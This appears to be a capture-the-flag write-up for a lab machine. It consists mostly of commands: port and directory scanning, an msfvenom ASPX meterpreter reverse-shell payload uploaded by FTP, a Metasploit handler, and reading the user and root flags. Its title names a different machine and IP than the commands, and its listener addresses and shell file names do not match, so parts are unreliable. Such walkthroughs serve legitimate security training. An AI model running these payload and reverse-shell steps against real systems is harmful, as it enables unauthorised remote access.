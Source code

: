 # ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7abcf759-4f4f-4679-b5c1-7e5ce3671200)

![image](https://github.com/lufffe/Writeups/assets/90646635/09d83a51-bc6b-4b67-a279-44d602d5290d)

```bash
nmap -A -p 21,80 10.10.10.5
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0c973612-4857-4dbb-b4e6-ad240c9a39b0)

```bash
gobuster dir -u http://10.10.10.5/ -w big.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f9323095-544c-4411-8a8f-5733a4a29053)


![image](https://github.com/lufffe/Writeups/assets/90646635/c0f558b2-38e6-435e-8355-51a3c13e532f)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4455 -f aspx > shell2.aspx
```

![image](https://github.com/lufffe/Writeups/assets/90646635/264d53f9-d60e-4164-b1a5-42763cedcb04)

```bash
ftp 10.10.10.5
```

```bash
ftp> put shell2.aspx
```
![image](https://github.com/lufffe/Writeups/assets/90646635/667ee882-e64d-4dbd-9239-2471bccf2242)

```bash
msfconsole
```

```bash
search multi/handler
```

```bash
msf6 exploit(multi/handler) > set lhost 10.10.14.16
```

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```bash
msf6 exploit(multi/handler) > exploit
```

[http://10.10.10.5/shell.aspx](http://10.10.10.5/luf3.aspx)

![image](https://github.com/lufffe/Writeups/assets/90646635/846d277d-55d7-4b38-86c9-f0829e8e0bcc)

```bash
meterpreter > shell
```

```bash
c:\windows\system32\inetsrv>systeminfo
```
![image](https://github.com/lufffe/Writeups/assets/90646635/84f6b6be-d526-4da0-b224-5c0d62f53360)

```bash
c:\Users>exit
```

```bash
meterpreter > background
```

![image](https://github.com/lufffe/Writeups/assets/90646635/85d9be9c-bcd3-49dd-a7d0-c6cd66fefe8d)


![image](https://github.com/lufffe/Writeups/assets/90646635/b32f2150-bba3-46ce-8de2-ee5382c4131b)

![image](https://github.com/lufffe/Writeups/assets/90646635/e8919e3e-cdcb-40a1-9cde-921c37124b60)
c:\Users\babis\Desktop>

```bash
type user.txt
```

c:\Users\Administrator\Desktop>
```bash
type root.txt
```

